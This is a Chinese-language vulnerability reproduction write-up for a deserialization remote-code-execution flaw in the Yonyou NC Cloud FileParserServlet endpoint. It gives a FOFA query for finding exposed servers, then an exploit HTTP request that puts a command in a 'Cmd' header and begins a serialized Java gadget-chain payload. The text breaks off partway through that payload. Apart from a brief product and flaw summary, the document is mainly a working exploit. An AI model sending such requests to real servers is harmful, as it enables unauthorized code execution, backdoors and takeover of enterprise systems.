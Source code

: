 
# 用友 NC Cloud FileParserServlet 反序列化 RCE 漏洞复现

### 0x01 产品简介

 用友 NC Cloud 是一种商业级的企业资源规划云平台，为企业提供全面的管理解决方案，包括财务管理、采购管理、销售管理、人力资源管理等功能，实现企业的数字化转型和业务流程优化。

### 0x02 漏洞概述

用友 NC Cloud FileParserServlet 接口存在反序列化代码执行漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="用友-NC-Cloud"

![](assets/1701826097-0d170dcc8a231ed8025babd1f728c625.png)

### 0x04 漏洞复现

Exp

```cobol
POST /service/~uapss/nc.search.file.parser.FileParserServlet HTTP/1.1
Host: {{Hostname}}
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x02?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.col
```
